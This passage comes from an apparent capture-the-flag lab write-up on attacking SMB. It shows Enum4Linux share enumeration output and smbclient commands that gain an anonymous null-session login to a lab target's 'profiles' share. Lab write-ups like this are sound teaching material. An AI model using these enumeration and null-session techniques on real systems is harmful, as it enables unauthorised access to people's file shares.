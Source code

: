 In the case of SMB exploits, a useful tool to have, is access to the SMB shares' names. It is frequent for people to name SMB shares in very revealing ways like 'confidential', 'private' or 'sensitive',  which can immediately alert the hacker to a potentially useful folder. 

In our case, this enumeration is performed by `Enum4Linux` under the `Share Enumeration` section. We can see that there are 4 shares:

     ========================================= 
    |    Share Enumeration on 10.10.228.27    |
     ========================================= 
    
            Sharename       Type      Comment
            ---------       ----      -------
            netlogon        Disk      Network Logon Service
            profiles        Disk      Users profiles
            print$          Disk      Printer Drivers
            IPC$            IPC       IPC Service (polosmb server (Samba, Ubuntu))
    SMB1 disabled -- no workgroup available
And that there is a potentially interesting share named `profiles`, which can be used to enumerate the Users Profiles, and hence completing another step in enumerating our target's network.


### Exploiting SMB

We now turn to exploiting our target. At this point we are focused on gaining access to the ``profiles`` share. There are some known CVE's related to SMB protocols that we could try and lookup, but before we do that, notice the presence of a Share named `IPC$` (Google it first). This share is used to give access to *null sessions* i.e. connections via anonymous users, or users that do not require username or password. Sometimes SMB shares are misconfigured and they're inadvertently given a *null session* configuration, rendering them accessible to any SMB client that wants to know more than he probably should.  

To test if this is the case we can use Linux's built-in SMB client called `smbclient`. The syntax is pretty straightforward - if we want access to a share named [SHARE], then the syntax is as follows:

    diogo@kali ~ :$ smbclient //<TARGET_IP>/[SHARE] -U <username> -p <port>
    
Let us try to access the `profiles` share in our target's machine using an empty username, ' ', listening on port 139.

    diogo@kali ~ :$ smbclient //10.10.253.213/profiles -U  -p 139
    
We get back the following output 

    diogo@kali ~ :$ smbclient //10.10.253.213/profiles -U  -p 139
    
    Try "help" to get a list of possible commands.
    smb: \>
    
Uhuh! This means we were able to get an SMB connection to our target! Now we can do a lot of damage, let's start by locating ourselves by running the `pwd` command.

    diogo@kali ~ :$ smbclient //10.10.253.213/profiles -U  -p 139
    
    Try "help" to get a list of possible commands.
    smb: \> pwd
    Current directory is \\10.10.253.213\profiles\
    smb: \> 
    
